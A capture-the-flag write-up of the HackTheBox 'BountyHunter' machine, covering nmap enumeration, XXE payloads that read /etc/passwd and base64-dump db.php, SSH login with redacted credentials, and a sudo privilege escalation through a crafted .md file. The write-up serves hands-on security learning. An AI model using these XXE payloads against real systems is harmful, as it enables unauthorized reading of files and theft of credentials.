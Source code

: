 ```yaml
---
title: Bounty Hacker -- Writeup
date: 2022-03-28
categories: [HackTheBox, Easy]
tags: [hackthebox, ctf, xxe]     # TAG names should always be lowercase
---
```


# Summary -
Easy rated Hackthebox machine. To get initial access, have to do XXE with the help of other information. Also, privilege escalation is pretty tricky as well... Have to create a certain .md file in a certain way to abuse it. Overall a fun machine...

# Enumeration -
nmap, here we go...
### nmap -
```bash
# Nmap 7.91 scan initiated Sun Jul 25 05:59:02 2021 as: nmap -T4 -A -p22,80 -oA nmap 10.10.11.100
Nmap scan report for 10.10.11.100
Host is up (0.081s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   106.81 ms 10.10.14.1
2   106.89 ms 10.10.11.100

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 25 05:59:16 2021 -- 1 IP address (1 host up) scanned in 14.23 seconds
```
Two ports are open. 22 ssh and 80 http server.

**port 80** -
Contains some portal which says its in development.
Looks like its using XML as backend. Let's intercept using Burp and see.

![Burp](/assets/img/hackthebox/bountyhacker/1.png)

# Explotation -
So, its sending data with base64 encoding which if we decode then we can see data parsing using XML format. That means we can try XXE here. Yay!

```xml
# Default
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>apache</title>
		<cwe>ads</cwe>
		<cvss>asd</cvss>
		<reward>asd</reward>
		</bugreport>

# XXE for file disclosure
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>ads</cwe>
		<cvss>asd</cvss>
		<reward>asd</reward>
	</bugreport>

# XXE with php filter.
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
	<bugreport>
		<title>&xxe;</title>
		<cwe>ads</cwe>
		<cvss>asd</cvss>
		<reward>asd</reward>
	</bugreport>
```

Okay, so XXE worked. (Make sure to put base64 encoded payload.) With /etc/passwd file disclosure payload.
Hmm... I tried to grab ssh keys but no luck. But fluff showed one interesting file which is db.php maybe we can grab it through XXE and then maybe we can see something.

![ffuf](/assets/img/hackthebox/bountyhacker/9.png)

So... With the help of XXE php wrapper I managed to get that file which showed some creds.

![creds](/assets/img/hackthebox/bountyhacker/2.png)

From /etc/passwd disclosure, there are two users in home directory which are development and sysylog but creds worked for development user. (Read /etc/passwd to confirm this.)

**development:\<redacted\>** #ssh creds

Let's try to ssh to developement with above creds and it should work.

![login](/assets/img/hackthebox/bountyhacker/3.png)

# Post Exploitation -
Let's login as development user.

`sudo -l` revealed interesting file we can execute as root without password...

According to the condition its taking we need to create a manually .md file with certain conditions to abuse it.

![ticket](/assets/img/hackthebox/bountyhacker/4.png)

Run ticketValidator.py as sudo and give path of your .md file and you should get root.

![getroot](/assets/img/hackthebox/bountyhacker/5.png)